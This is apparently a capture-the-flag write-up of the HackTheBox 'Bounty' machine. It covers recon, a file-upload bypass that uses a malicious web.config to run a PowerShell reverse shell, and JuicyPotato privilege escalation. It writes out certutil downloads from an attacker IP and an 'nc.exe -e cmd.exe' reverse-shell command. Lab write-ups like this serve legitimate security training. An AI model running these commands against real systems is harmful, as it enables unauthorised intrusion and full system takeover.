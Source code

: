 # Bounty [HTB](https://app.hackthebox.com/machines/Bounty)
![bounty-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/bounty-01.png)

## Recon 

After adding the target to `/etc/hosts`, i run an `nmap` scan:

```bash
nmap -sC -sV -A -p- bounty.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/nmap-res-02.png)

We have the following:

+ An IIS v7.5 on port 80.

We have a single web server, lets see what we can find. 


### IIS Port 80

Lets start by navigating towards the site at `http://bounty.htb` 

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/site-03.png)

Not much to see here, lets try a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://bounty.htb/FUZZ -e .cgi,.php,.aspx,.asp
```

![ffuf-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/ffuf-04.png)

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/ffuf-05.png)

We have two interesting results. The first is a file upload directory, if we use Burp to intercept the 
request to this link we will get a `403` forbbiden return code:

![forbidden-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/forbidden-06.png)

On the other hand, we have a file upload page enabled for public use on this server:

![upload-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/upload-07.png)

Lets try to upload a simple `.txt` file to the server:

![txt-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/txt-08.png)

We get an error. Lets examine the replay in `Burp`:

![burp-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/burp-09.png)

There is a server side `ValidateFile()` funciton. I couldnt find this functiuon executing on the client 
side. We cant be sure exactly how the function works, it could determine acceptable file types via HTTP 
headers, magic numbers, file extensions, etc. 

Lets try to upload a `jpg` image:

![jpg-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/jpg-10.png)

So we see that `jpg` files are accepted. Can we view the image from the `uploadedfiles` directory? 

![view-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/view-11.png)

Yes we can. Ok, so now ideally what we want to do is find a way to land a reverse shell. With an IIS 
server we can try a copule of things. We can try to upload an `.aspx` reverse shell, which doesnt work 
in this case. The file upload validator checks the file extension. I've tried different tricks to 
bypass this but nothing worked for me. 

But we can also inject code inside a `web.config` file, which in this case, is accepted:

![config-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/config-12.png)


If we open the file via the browser we get an internal error:

![internal-err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/internal-err-13.png)

This happens becasue the server tried to render the file, but failed because there was no valid syntax, lets change that. 

I found a `web.config` file for a reverse shell on [Github](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config).

![rshell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/rhsell-14.png)

As you can see, it runs a PowerShell command to grab a reverse shell from our host and execute it.
First, download the `web.config` file and update you attack machine's IP. 

Next, grab a copy of [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)'s `Invoke-PowerShellTCP.ps1` script to your working directory and invoke the reverse shell cmdlet at the buttom:

![cmdlet-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/cmdlet-15.png)

Now we need to host this file via a python web server:

```bash
python3 -m http.server 80
```

Upload the `web.config` file to the server:

![upload-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/upload-16.png)

Start the listener:

```bash
rlwrap nc -lnvp 443
```

Execute the  `web.config` file via the URL at `http://bounty.htb/uploadedfiles/web.config`.

This should give you access to the target system:

![shell-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/shell-17.png)


## Privilege Escalation

If we check for our user's privileges with:

```cmd
whoami /priv
```

![privs-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/privs-18.png)

We can see we have the `Impersonate` privileged enabled. We can potentially exploit this with a [potato attack](https://github.com/ohpe/juicy-potato), download from [here](https://github.com/ohpe/juicy-potato/releases).


Once you have the `JuicyPotato.exe` binary in your working directory, grab a copy of `/usr/share/windows-resources/binaries/nc.exe` as well. Then start a Python server with:

```bash
python3 -m http.server 80
```

Now from the traget, `cd` into a directory we can write to like `C:\Users\merlin\AppData\Local\Temp` and download both files with:

```cmd
certutil -urlcache -f http://10.10.14.62/JuicyPotato.exe jp.exe
certutil -urlcache -f http://10.10.14.62/nc.exe nc.exe
```

Start the listener with:

```bash
rlwrap nc -lnvp 9001
```


Execute the exploit with:

```cmd
C:\Users\merlin\AppData\Local\Temp\jp.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c C:\Users\merlin\AppData\Local\Temp\nc.exe -e cmd.exe 10.10.14.62 9001" -t *
```

This should yield you shell access as the system:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/root-19.png)
